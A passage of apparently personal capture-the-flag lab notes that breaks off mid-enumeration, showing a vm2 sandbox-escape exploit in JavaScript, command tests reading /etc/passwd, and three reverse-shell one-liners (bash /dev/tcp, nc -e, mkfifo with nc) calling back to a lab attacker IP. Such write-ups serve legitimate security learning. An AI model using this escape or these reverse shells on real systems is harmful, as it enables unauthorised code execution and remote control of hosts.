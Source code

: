         ```js
            const { VM } = require("vm2");
            const vm = new VM();

            const code = `
            const err = new Error();
            err.name = {
                toString: new Proxy(() => "", {
                apply(target, thiz, args) {
                    const process = args.constructor.constructor("return process")();
                    throw process.mainModule.require("child_process").execSync("echo hacked").toString();
                },
                }),
            };
            try {
                err.stack;
            } catch (stdout) {
                stdout;
            }
            `;

            console.log(vm.run(code));
        ```

        1. So with this it looks like we can bypass the restriction of the child_process module and can now run commands
        2. Lets test with
           1. .execSync("whoami")
              1. RESPONSE: svc
           2. .execSync("cat /etc/passwd")
              1. ...
              2. joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
              3. svc:x:1001:1001:,,,:/home/svc:/bin/bash
              4. ...
6. EXPLOIT (WTIH REVSHELL)
   1. So we now know this gives us remote code execution so lets try and spawn a revshell
      1. .execSync("bash -i >& /dev/tcp/10.10.14.235/9999 0>&1")
         1. ERROR: /bin/sh: 1: Syntax error: Bad fd number
      2. .execSync("nc -e /bin/sh 10.10.14.235 9999")
         1. ERROR: Command failed: nc -e
      3. .execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.235 9999 >/tmp/f")
         1. SUCCESS
         2. Stabilize revshell
7. ENUMERATION
   1. Check user's home directories
      1. > ls /home
         1. joshua, svc
      2. Can't access joshua
   2. Check files in /var/www/*
      1. We see a folder for contact, editor (probably the node.js sandbox), and html
      2. Lets start with contact
         1. Check out the tickets.db file we see in here
            1. > cat tickets.db
